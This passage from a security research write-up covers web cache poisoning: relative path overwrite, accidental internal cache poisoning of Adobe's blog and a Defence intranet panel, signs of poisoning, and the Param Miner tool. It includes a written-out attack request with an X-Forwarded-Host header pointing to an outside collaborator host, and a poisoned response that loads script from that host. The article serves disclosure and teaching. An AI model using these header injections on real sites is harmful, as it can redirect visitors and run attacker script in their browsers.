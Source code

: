 Relative Path Overwrite
The foothold that cache poisoning gives us in page subresources has a wonderful symbiosis with relative path overwrite8 attacks. These attacks use server-side path normalization to confuse browsers into misresolving path-relative stylesheet imports, such as <link rel="stylesheet" href="style.css"/>, resulting in them executing HTML responses as CSS. As the attacker typically doesn't control the query string they are often unable to inject malicious CSS into the HTML page, hampering such attacks. Cache poisoning gives us a way to inject malicious CSS into the HTML page in advance, making this niche vulnerability a little more exploitable.

Internal Cache Poisoning
On the opposite end of the spectrum, some attacks are so practical it's impossible to perform them safely. After probing a potential cache poisoning issue on Adobe's blog with the following request, I received a prolonged flood of traffic to my Burp Collaborator server, originating from all over their website:
GET /access-the-power-of-adobe-acrobat?dontpoisoneveryone=1 HTTP/1.1 Host: theblog.adobe.com X-Forwarded-Host: collaborator-id.psres.net
It turned out that they were using an integrated application-level cache called WP Rocket Cache. Internal, application-layer caches often cache fragments of responses individually and don't really have the concept of a cache key. So by sending that request, I'd inadvertently poisoned every page on the site, including the homepage where every link now pointed to my domain.
GET / HTTP/1.1 Host: theblog.adobe.com
HTTP/1.1 200 OK X-Cache: HIT - WP Rocket Cache ... <script src="https://collaborator-id.psres.net/foo.js"/> ... <a href="https://collaborator-id.psres.net/post">...
This was not an ideal outcome. As there was no way for me to 'undo' the attack, I turned off the Collaborator server then reached out to Adobe's security team, who resolved it in under 20 minutes. Luckily, they were understanding, but when it comes to internal cache poisoning, the distinction between legitimate hackers and not-so-legitimate hackers can get a little blurry.
Blind Cache Poisoning
As internal caches don't have cache keys, it's possible to poison pages you don't even have access to. I discovered this by accident while evaluating a DoS technique - the technique universally failed, but it triggered traffic to my server from an internal administration panel located on the US Department of Defence intranet.
After some investigation, I found that the site was only accessible internally, so any attempt to access it externally caused a server-level redirect to the intranet. However, the DoS technique broke the redirect and triggered an error page, poisoning the internal cache in the process.
Recognizing Internal Cache Poisoning
I've made numerous attempts at inventing a safe way to search for internal cache poisoning, all of which are too terrible to mention. Still, we've seen it's quite easy to trigger it by accident. As such, it's worth knowing how to recognize the effects - I can say from experience that misclassification can result in a huge waste of time.
Since external caches almost always save entire responses, one key indicator of internal cache poisoning is when you see both old and new canaries appearing in a single response. Canaries appearing on different pages from the ones you injected is another good indicator too, as is the use of inconsistent hostnames that resolve to the same application.
There is one thing you can do to mitigate cache accidents - whenever you specify a hostname that isn't the target's, make sure that it's a site you control. You do not want to end up routing your target's visitors to evil.com, unless you are the lucky owner of evil.com.

Tooling
To help detect these issues, I've released a major update to Param Miner9 - an open source Burp Suite extension that works with both Community and Pro editions.
You can use the 'Add cachebuster' option to add static or dynamic header-based cache busters to all your traffic. This will help unmask dynamic pages, while reducing the chance of accidentally affecting other users.
It can also scan for many of the cache-key issues that we've discussed. On the GitHub repo you'll find a video of it detecting a Fat GET vulnerability on a system running Rack::Cache.
Finally, Param Miner's core functionality is discovering unlinked parameters, and it will now automatically probe those to identify if they're in the cache key.
To help you gain experience identifying and exploiting these issues, we have also released some free online labs10 as part of our Web Security Academy.
Defense
The sheer complexity of caches makes it difficult to have any confidence that they are secure. That said, there are some broad approaches you can take to avoid the worst issues.